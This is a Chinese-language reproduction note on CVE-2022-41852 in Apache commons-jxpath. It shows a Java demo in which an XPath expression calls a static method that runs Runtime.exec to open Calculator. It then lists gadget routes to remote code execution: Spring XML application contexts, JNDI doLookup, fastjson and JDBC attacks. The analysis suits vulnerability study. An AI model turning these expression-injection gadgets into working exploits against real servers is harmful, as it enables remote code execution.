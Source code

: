 # CVE-2022-41852

## 影响版本

commons-jxpath:commons-jxpath <= 1.3

## 复现思考

看漏洞描述可以看出由于xpath表达式的问题造成的漏洞

![](img/1.png)

这一点其实来源官方的一个feature

https://commons.apache.org/proper/commons-jxpath/users-guide.html

![](img/2.png)

可以看到这里的描述似乎是可以执行一些任意代码具体我们可以跟进看看

简单写个demo



Test.java

```java
import org.apache.commons.jxpath.JXPathContext;

public class Test {
    public static void main(String[] args) {
        JXPathContext context = JXPathContext.newContext(null);
        context.getValue("com.example.springdemo.calc.calc()");
    }
}
```

Calc.java

```java
package com.example.springdemo;

public class calc {
    public static void calc(){
        try {
            Runtime.getRuntime().exec("open -na Calculator");
        }catch (Exception e ){

        }
    }
}
```

可以看到这部分的处理在org.apache.commons.jxpath.ri.compiler.ExtensionFunction当中这里也不浪费太多篇幅，解析表达式的时候会调用到org.apache.commons.jxpath.ri.compiler.ExtensionFunction#computeValue

里面通过Function function = context.getRootContext().getFunction(this.functionName, parameters);去获取一些方法，方法限制有两个，要么有构造函数，要么是一些静态方法![](img/3.png)

## 对于实例化我们能做什么

spring当中有两个类构造函数就能加载远程配置可以rce，

- org.springframework.context.support.ClassPathXmlApplicationContext
- org.springframework.context.support.FileSystemXmlApplicationContext

## 对于静态方法我们能做什么

jndi当中有静态方法，javax.naming.InitialContext.doLookup

一些常见库比如fastjson出发json反序列化

当然还有jdbc攻击也可以帮助我们撕开一条漏洞的口子

当然肯定还有其他的攻击手法毕竟jre当中有很多类这里只是举一些例子而已，对于学习足够了



## 能否进一步突破

可以的，敏感时期点到为止
